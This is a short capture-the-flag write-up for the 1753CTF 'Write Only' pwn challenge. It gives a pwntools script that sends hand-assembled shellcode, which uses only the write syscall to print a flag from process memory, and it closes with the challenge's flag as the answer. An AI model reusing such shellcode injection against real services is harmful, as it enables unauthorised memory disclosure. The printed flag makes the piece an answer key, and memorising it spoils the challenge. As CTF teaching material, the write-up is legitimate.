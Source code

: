 https://ctftime.org/event/2234/

# Write Only ~ PWN

The flag is there. But that doesn’t mean you’ll be able to see it.

nc 147.78.1.47 40183

https://dl.1753ctf.com/write-only?s=Fw72X6AX

## Solution

Shellcode that only uses the `write` syscall.

```
from pwn import *

REMOTE_IP = "147.78.1.47"
REMOTE_PORT = 40183

p = remote(REMOTE_IP, REMOTE_PORT)

# mov rdi, 1
# mov rsi, [rbp-0x30] ; flag_mem
# mov rdx, 0x48
# mov rax, 1
# syscall ; write(stdout, flag_mem, 0x48)
shellcode = b"\xbf\x01\x00\00\x00\x48\x8b\x75\xd0\xba\x48\x00\x00\x00\xb8\x01\x00\x00\x00\x0f\x05"

p.sendline(shellcode)

p.interactive()
```

## Flag
`1753c{yes_its_write_only_but_you_can_read_it_too}`

